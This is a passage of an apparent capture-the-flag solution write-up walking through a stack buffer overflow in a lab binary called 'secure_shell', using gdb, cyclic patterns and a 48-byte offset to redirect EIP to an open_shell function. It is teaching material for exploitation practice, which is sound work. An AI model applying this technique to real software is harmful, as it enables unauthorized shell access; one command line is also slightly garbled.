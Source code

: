 ## Overview

`override.solution.md` shows that we can overflow the stack to overwrite
local variables within a function. We can keep writing arbitrary data
until we eventually hit the EIP (Extended Instruction Pointer),
which points to the next instruction that will be executed.

### Determining EIP values

We can see the available functions with gdb:

```
info functions

All defined functions:

File secure_shell.c:
11:     void login();
26:     int main(int, char **);
5:      void open_shell();

Non-debugging symbols:
0x08049000  _init
0x080490a0  setgid@plt
0x080490b0  puts@plt
... etc ...
```

Jumping directly to the `login_shell` function would be perfect.
Let's get the memory address location:

```
pwndbg> p open_shell
$4 = {void ()} 0x8049216 <open_shell>
```

If we can write the value of 0x8049216 converted to little endian to
the EIP, then function called after `login` exits will be the `open_shell`
function.

We can hard code the value of `0x8049216` as the EIP value, as the binary
isn't compiled with the Position Independent Executable (PIE) flag set:

```
checksec secure_shell
[*] '/home/user/app/secure_shell'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Otherwise, the memory address of `open_shell` would be different each time
the program is run.

### Calculating required buffer size

We can create an arbitrary length value:

```
ruby  ./tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Open gdb, paste the value in, and when it crashes see the value
of EIP:

```
pwndbg> run
Starting program: /home/user/app/secure_shell
warning: Error disabling address space randomization: Operation not permitted
Please enter secure shell password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Access denied

Program received signal SIGSEGV, Segmentation fault.
... etc ...

pwndbg> info registers
eax            0xe                 14
ecx            0xffffffff          -1
edx            0xffffffff          -1
ebx            0x62413362          1648440162
esp            0xffe3d760          0xffe3d760
ebp            0x35624134          0x35624134
esi            0xf7fbe000          -134488064
edi            0xf7fbe000          -134488064
eip            0x41366241          0x41366241
eflags         0x10282             [ SF IF RF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
pwndbg> p $eip
$10 = (void (*)()) 0x41366241
```

Note that the EIP value is `0x41366241`, to find the required buffer size:
```
ruby  ./tools/exploit/pattern_offset.rb -l 100 -[*] Exact match at offset 48
```

We will need to write 48 bytes before writing the EIP value

### Final Solution

Verify the payload works as expected:

```
python3 ./control_eip.py | xxd
```

Remember to keep stdin open:

```
(python3 control_eip.py; echo ''; cat) | ./secure_shell
```

Also see `control_eip_pwntools.py` for a solution which uses pwntools:

```
gdb ./secure_shell
pwndbg> run < <(cyclic 100)
[ crash ]

pwndbg> p $eip
$1 = (void (*)()) 0x6161616d
pwndbg> cyclic -l 0x6161616d
48
```

Running:
```
(python3 control_eip_pwntools.py; echo ''; cat) | ./secure_shell
```

